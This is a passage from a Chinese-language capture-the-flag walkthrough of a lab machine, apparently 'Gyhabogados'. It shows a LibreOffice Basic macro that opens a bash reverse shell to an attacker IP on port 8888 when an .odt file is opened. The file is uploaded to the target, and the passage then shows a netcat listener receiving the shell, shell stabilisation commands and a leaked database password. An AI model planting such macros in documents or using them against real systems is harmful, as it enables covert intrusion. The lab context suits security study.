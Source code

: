2. 写入用于创建反向Shell的Basic脚本代码。以下为示例：

   ```basic
   Sub Main
       Dim command as String
       command = "bash -c 'bash -i >& /dev/tcp/192.168.205.128/8888 0>&1'"
       Shell(command)
   End Sub
   ```

3. 将此宏绑定到文档的“打开文档”事件上，并保存为`.odt`格式。

**获取Shell**

在Kali上设置`netcat`监听8888端口，然后通过网站上传构造好的`.odt`文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888                 
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.131] 55862
bash: cannot set terminal process group (2362): Inappropriate ioctl for device
bash: no job control in this shell
bash: /home/bob/.bashrc: Permission denied
bob@TheHackersLabs-Gyhabogados:~$ id
uid=1000(bob) gid=1000(bob) groups=1000(bob),27(sudo),100(users)
```

成功接收到反弹Shell，当前用户为`bob`。

# 三、权限提升

## 1. Shell稳定化

为了更好的交互体验，使用以下命令序列将简易Shell升级为功能完整的TTY。

```bash
script /dev/null -c bash
# 按下 Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

## 2. bob -> sam

在之前目录扫描发现的 `/config` 目录中，查找敏感信息。

```bash
bob@TheHackersLabs-Gyhabogados:/var/www/html/config$ cat db.php 
<?php

$mysqli = mysqli_connect('127.0.0.1', 'bob', 'sup3rS3cretP4ssword_2024!', 'candidatos');

if (mysqli_error($mysqli)) {
  die('Ocurrio un error al conectarse a la base de datos ' . mysqli_error($mysqli));
}
```
